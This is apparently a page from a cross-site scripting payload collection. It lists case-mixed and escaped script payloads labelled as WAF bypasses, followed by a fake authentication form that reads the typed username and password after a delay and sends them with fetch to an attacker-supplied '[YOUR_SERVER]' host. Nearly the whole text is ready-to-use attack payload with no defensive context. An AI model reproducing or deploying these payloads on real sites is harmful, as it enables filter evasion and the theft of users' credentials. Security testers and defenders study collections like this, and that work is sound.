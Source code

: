 ### WAF bypass
```
<sCriPt>alert``</sCRipT>
<sCriPt>eval('alert\x280\x29');</sCRipT>
<sCriPt>setTimeout('alert\x280\x29', 0);</sCRipT>
<sCriPt>Function('alert\x280\x29')();</sCRipT>
<sCriPt>window.location='javascript:alert(0)';</sCRipT>
<iNpUt &gt; id="x"onfocus="window['\a\l\ert']()" autofocus />
<iNpUt type=im&#x000000000000000000000000000000061;ge &gt; id="x"oNerRor="window['\a\l\ert']()" src />
```

### Fake authentication form sending credentials in keylogger mode

    <input type="text" name="username" id="username" /><input type="password" name="password" id="password" /><script>function sleep(ms){return new Promise(r => setTimeout(r,ms));}sleep(3000).then(()=> {var user =document.getElementById('username').value;var pass = document.getElementById('password').value;var user_pass = user+"_"+pass;fetch("https://[YOUR_SERVER]?u="+user_pass);});</script>
